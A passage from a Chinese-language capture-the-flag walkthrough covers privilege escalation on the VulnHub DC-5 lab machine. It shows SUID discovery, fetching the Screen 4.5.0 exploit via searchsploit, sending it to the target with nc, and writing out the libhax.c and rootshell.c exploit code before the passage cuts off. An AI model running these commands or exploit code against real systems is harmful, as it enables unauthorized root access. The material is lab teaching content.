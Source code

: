 
# 后期-提权

升级下
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

找带 suid 的文件
```bash
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC5/11.png)

在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0
```
searchsploit -w screen 4.5.0
```

访问 https://www.exploit-db.com/exploits/41154 下载 POC

kali 上发送
```
nc -nlvp 6666 < 41154.sh
```

靶机上接收，并运行
```bash
cd /tmp
nc 192.168.141.134 6666 > 41154.sh
sh 41154.sh
```

等了半天，没有提成功，网上搜了下，其他人的做法是将 poc 拆分开来运行，照着试试看

在 kali 下运行
```bash
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
```
